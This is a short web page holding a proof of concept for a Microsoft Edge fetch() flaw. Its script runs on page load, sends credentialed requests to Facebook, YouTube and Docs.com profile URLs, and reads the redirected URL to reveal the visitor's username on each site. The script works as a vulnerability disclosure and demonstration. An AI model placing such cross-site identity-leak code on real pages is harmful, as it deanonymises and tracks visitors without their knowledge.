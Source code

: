 ```yaml
---
layout: default
title: Microsoft Edge Fetch Proof of Concept
---
```


# Microsoft Edge Fetch Proof of Concept

For the PoC to work, you must be browsing this with Microsoft Edge and be logged in one of the listed services.

<h3 id="Facebook">Facebook loading...</h3>
<h3 id="Youtube">Youtube loading...</h3>
<h3 id="Docs.com">Docs.com loading...</h3>
<h3 id="error"></h3>
If any of the above contains your username, an attacker could identify you by reading the username from the URL. All your public information on this page is also available to the attacker (for instance all your public Facebook details that can be found by browsing to the above URL).
<script>
function update(url, id)
{
    fetch(url, {
            mode: "no-cors",
            credentials: "include",
         }).then(function(response) {
         		console.log(response);
         		if (!response.url) {
         			document.getElementById("error").innerHTML = "Fetch does not leak URL (your browser is safe)";
         			document.getElementById(id).innerHTML = "";
         		}
         		else
         		{
                	document.getElementById(id).innerHTML = id + ": " + response.url;
                }
            }).catch(function(error) {
                console.log("Failed with: ", error);
    });
}
window.onload = function() {
    update("https://facebook.com/me", "Facebook");
    update("https://youtube.com/profile", "Youtube");
    update("https://docs.com/me", "Docs.com");
}
</script>